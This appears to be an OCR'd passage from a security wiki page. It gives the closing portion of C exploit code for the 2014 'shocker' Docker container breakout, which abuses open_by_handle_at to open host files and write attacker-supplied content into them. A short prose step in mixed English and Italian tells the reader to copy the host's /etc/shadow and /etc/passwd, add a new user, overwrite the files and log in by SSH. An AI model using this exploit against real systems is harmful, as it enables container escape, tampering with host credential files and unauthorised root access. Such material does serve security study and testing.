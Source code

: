 ```c
}
}
closedir(dir);
close(fd);
return 0;
}
int main(int argc, char * argv[]) {
char buf[0x1000];
int fd1, fd2;
struct my_file_handle h;
struct my_file_handle root_h = {
.handle_bytes = 8,
.handle_type = 1,
.f_handle = {
0x02,
0,
0,
0,
0,
0,
0,
0
}
};
fprintf(stderr, "[***] docker VMM-container breakout Po(C) 2014 [***]\n"
"[***] The tea from the 90's kicks your sekurity again. [***]\n"
"[***] If you have pending sec consulting, I'll happily [***]\n"
"[***] forward to my friends who drink secury-tea too! [***]\n\n<enter>\n");
read(0, buf, 1);
// get a FS reference from something mounted in from outside
if ((fd1 = open("/etc/hostname", O_RDONLY)) < 0)
die("[-] open");
if (find_handle(fd1, argv[1], & root_h, & h) <= 0)
die("[-] Cannot find valid handle!");
fprintf(stderr, "[!] Got a final handle!\n");
dump_handle( & h);
if ((fd2 = open_by_handle_at(fd1, (struct file_handle * ) & h, O_RDWR)) < 0)
die("[-] open_by_handle");
char * line = NULL;
size_t len = 0;
FILE * fptr;
ssize_t read;
fptr = fopen(argv[2], "r");
while ((read = getline( & line, & len, fptr)) != -1) {
write(fd2, line, read);
}
printf("Success!!\n");
close(fd2);
close(fd1);
return 0;
}
```
In order to scape the docker container you could **scaricare** the files `/etc/shadow` and `/etc/passwd` from the host, **aggiungere** to them a **nuovo utente**, and use **`shocker_write`** to overwrite them. Then, **accedere** via **ssh**.
